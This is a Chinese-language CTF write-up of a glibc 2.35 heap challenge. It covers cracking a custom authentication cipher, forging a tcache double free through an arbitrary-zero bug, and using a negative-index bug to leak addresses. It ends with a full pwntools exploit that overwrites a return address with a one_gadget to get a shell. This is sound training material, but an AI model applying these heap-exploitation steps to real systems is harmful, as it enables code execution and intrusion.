


libc版本明牌，2.35，属于高版本的libc，传统的打hook的方法是不能用了。

原本以为是劫持IO结构体。但是试了好久都没成功，最后还是堆回归栈，跳转到onegadget。



初始有一个加密认证，只有解密之后才能进入系统管理程序。然后才能接触到漏洞函数。无论是add和show还是edit都会给堆地址。



漏洞函数是任意地址清零，不过是8个字节。

我第一个看到这个就想着去绕过key防护，然后doublefree实现任意地址控制。至于如何实现doublefree，也利用这个漏洞函数，我们知道tcache在2.35版本，虽然在堆里面地址是加密的，但是在结构体里面却是没有加密的。所以通过栈风水布局，利用漏洞函数去更改结构体里面地址的第一个字节为00，就可以实现指针重叠。后面就是再次利用漏洞函数去清零key绕过检查实现doublefree。中间还有用show去泄露加密之后的地址破解加密，然后去控制tcache结构体。

这样就实现了任意地址控制，但是这个任意地址控制是有问题的，申请之后控制区域就会初始化。

```
          *((_QWORD *)&chunk1 + 3 * n15_1) = malloc(size);
          if ( *((_QWORD *)&chunk1 + 3 * n15_1) )
          {
            memset(*((void **)&chunk1 + 3 * n15_1), 0, size);
            *((_QWORD *)&size1count + 3 * n15_1) = size;
            flag1count[6 * n15_1] = 1;
            ++::n15;
            printf("[+] Chunk %d allocated at %p (size: %zu)\n", n15_1, *((const void **)&chunk1 + 3 * n15_1), size);
          }
```

这也是为什么IO结构体为什么不能用。

之后就是再次实现指针重叠，然后控制一个较大的堆块，然后free之后就可以利用show去泄露libc地址。

拿到libc地址之后，我卡了很长时间，没有hook我原本想伪造IO结构体，但是因为这个初始化一直失败。

最后放弃了。

直到发现，edit函数有数组越界，没有检查小于0。

```
 if ( n15 <= 15 )
    {
      if ( n15 < 0 || flag1count[6 * n15] )
      {
        v2 = (char *)&chunk1 + 24 * n15;
        printf("[*] Target address: %p (size: %zu)\n", *(const void **)v2, *((_QWORD *)v2 + 1));
        printf("[*] Content: ");
        if ( *((_QWORD *)v2 + 1) && *((_QWORD *)v2 + 1) <= 0xFFFFFu )
        {
          v3 = read(0, *(void **)v2, *((_QWORD *)v2 + 1));
          if ( v3 >= 0 )
            printf("[+] Chunk %d updated (%zd bytes)\n", n15, v3);
          else
            puts("[-] Read failed!");
```

并且这个越界泄露点几乎没有任何检查（这里其实可以直接输入-10泄露libc，我算是走了个歪路），gdb里面找了一会，发现上方0x320处发现了程序地址。输入-55之后就拿到了程序地址。拿到了程序地址就可以直接控制堆块数组然后就可以绕过初始化。

控制数组指向environ，就可以拿到栈地址。之后从gdb里面就能拿到edit函数返回地址的位置。先用一个edit去更换第一个数组指向edit函数的返回地址。那么再调用一次函数就可以控制edit的返回地址了。

更改返回地址为onegadget，函数正常返回的时候就能拿到shell了。

```
from pwn import *

sbox = [
    0x52,0x09,0x6A,0xD5,0x30,0x36,0xA5,0x38,0xBF,0x40,0xA3,0x9E,0x81,0xF3,0xD7,0xFB,
    0x7C,0xE3,0x39,0x82,0x9B,0x2F,0xFF,0x87,0x34,0x8E,0x43,0x44,0xC4,0xDE,0xE9,0xCB,
    0x54,0x7B,0x94,0x32,0xA6,0xC2,0x23,0x3D,0xEE,0x4C,0x95,0x0B,0x42,0xFA,0xC3,0x4E,
    0x08,0x2E,0xA1,0x66,0x28,0xD9,0x24,0xB2,0x76,0x5B,0xA2,0x49,0x6D,0x8B,0xD1,0x25,
    0x72,0xF8,0xF6,0x64,0x86,0x68,0x98,0x16,0xD4,0xA4,0x5C,0xCC,0x5D,0x65,0xB6,0x92,
    0x6C,0x70,0x48,0x50,0xFD,0xED,0xB9,0xDA,0x5E,0x15,0x46,0x57,0xA7,0x8D,0x9D,0x84,
    0x90,0xD8,0xAB,0x00,0x8C,0xBC,0xD3,0x0A,0xF7,0xE4,0x58,0x05,0xB8,0xB3,0x45,0x06,
    0xD0,0x2C,0x1E,0x8F,0xCA,0x3F,0x0F,0x02,0xC1,0xAF,0xBD,0x03,0x01,0x13,0x8A,0x6B,
    0x3A,0x91,0x11,0x41,0x4F,0x67,0xDC,0xEA,0x97,0xF2,0xCF,0xCE,0xF0,0xB4,0xE6,0x73,
    0x96,0xAC,0x74,0x22,0xE7,0xAD,0x35,0x85,0xE2,0xF9,0x37,0xE8,0x1C,0x75,0xDF,0x6E,
    0x47,0xF1,0x1A,0x71,0x1D,0x29,0xC5,0x89,0x6F,0xB7,0x62,0x0E,0xAA,0x18,0xBE,0x1B,
    0xFC,0x56,0x3E,0x4B,0xC6,0xD2,0x79,0x20,0x9A,0xDB,0xC0,0xFE,0x78,0xCD,0x5A,0xF4,
    0x1F,0xDD,0xA8,0x33,0x88,0x07,0xC7,0x31,0xB1,0x12,0x10,0x59,0x27,0x80,0xEC,0x5F,
    0x60,0x51,0x7F,0xA9,0x19,0xB5,0x4A,0x0D,0x2D,0xE5,0x7A,0x9F,0x93,0xC9,0x9C,0xEF,
    0xA0,0xE0,0x3B,0x4D,0xAE,0x2A,0xF5,0xB0,0xC8,0xEB,0xBB,0x3C,0x83,0x53,0x99,0x61,
    0x17,0x2B,0x04,0x7E,0xBA,0x77,0xD6,0x26,0xE1,0x69,0x14,0x63,0x55,0x21,0x0C,0x7D
]

inv_sbox = [0] * 256
for i, v in enumerate(sbox):
    inv_sbox[v] = i

key = [
    0xDE, 0xAD, 0xBE, 0xEF, 0xCA, 0xFE, 0xBA, 0xBE,
    0x13, 0x37, 0xC0, 0xDE, 0xFE, 0xED, 0xFA, 0xCE
]

def ror8(x, r):
    return ((x >> r) | ((x << (8 - r)) & 0xff)) & 0xff

def decrypt_block(cipher):
    a = list(cipher)
    n = 16

    for i in range(n):
        a[i] = inv_sbox[a[i]]
        a[i] ^= (i + key[i % 16]) & 0xff

    b = a[:]  
    for i in range(n // 2):
        j = n - 1 - i
        a[i] = b[j] ^ key[(j + 3) % 16]
        a[j] = b[i] ^ key[(i + 3) % 16]

    for i in range(n):
        a[i] ^= key[(i + 7) % 16]
        a[i] = ror8(a[i], 3)

    for i in range(n):
        a[i] = inv_sbox[a[i]]
        a[i] ^= key[i % 16]

    return bytes(a)
def chose(num):
    p.sendlineafter(b'>> ',str(num).encode())
def add(size):
    chose(1)
    p.sendlineafter(b'[*] Size: ',str(size).encode())
def delt(num):
    chose(2)
    p.sendlineafter(b'[*] Index: ',str(num).encode())
def edit(num,txt) :
    chose(3)
    p.sendlineafter(b'[*] Index: ',str(num).encode())
    p.sendlineafter(b'[*] Content: ',txt)
def brk(txt):
    chose(5)
    p.sendlineafter("[*] Enter debug data ",txt)
def show (num):
    chose(4)
    p.sendlineafter(b'[*] Index: ',str(num).encode())
p = process('./11')
libc = ELF('./libc.so.6')
p.recvuntil(b'hex): ')
challenge_hex = p.recvline().strip().decode()
challenge = bytes.fromhex(challenge_hex)

print("Challenge:", challenge_hex)
token = decrypt_block(challenge)
print("Token:", token)

p.sendlineafter(b'token: ', token)
add(0x50)
p.recvuntil(b'[+] Chunk 0 allocated at 0x')
chunk_base = int(p.recv(12),16) - 0x2a0
print(hex(chunk_base))
payload = chunk_base+0xa9
print(hex(payload))
add(0x80)
add(0x50)
add(0x80)
delt(0)
delt(2)
brk(p64(payload))
add(0x50)
delt(3)
delt(1)
show(0)
p.recvuntil(b'[*] Content:\n')
count_mm = u64(p.recv(6).ljust(8,b'\x00'))
print(hex(count_mm))
count = chunk_base+ 0x3f0
key = count ^ count_mm
print(f"密钥: {hex(key)}")
chunk1 =chunk_base + 0xb0
payload3 = p64(key ^ (chunk1))
edit(0,payload3)
add(0x80)
add(0x80)
add(0x420)
add(0x80)
delt(0)
edit(2,p64(0)*3+p64(chunk_base+0x480))
add(0x80)
delt(3)
show(0)
p.recvuntil(b'[*] Content:\n')
libc_area = u64(p.recv(6).ljust(8,b'\x00'))
print(hex(libc_area))
libc_base = libc_area - 0x21ace0
print(hex(libc_base))
onegadget = libc_base + 0xebc85
stdout = libc_base + libc.symbols['_IO_2_1_stdout_']
jumps = libc_base + libc.symbols['_IO_str_jumps']
environ = libc_base + libc.symbols['environ']
delt(4)
payload4 = p64(0)*3+p64(chunk_base+0x20)
edit(2,payload4)
add(0x80)
add(0x10)
add(0x10)
delt(4)
delt(5)
print(hex(stdout))
chose(3)
p.sendlineafter(b'[*] Index: ',b'-55')
p.recvuntil(b'[*] Target address: 0x')
elf_base = int(p.recv(12),16) - 0x13c0
edit(3,p64(0)*14 + p64(elf_base+0x5240))
add(0x10)
edit(4,p64(environ))
show(0)
p.recvuntil(b'[*] Content:\n')
stack = u64(p.recv(6).ljust(8,b'\x00'))
print(hex(stack))

stack_addr = stack -0x148
edit(4,p64(stack_addr+8))
#gdb.attach(p)
edit(0,p64(onegadget))

p.interactive()

```

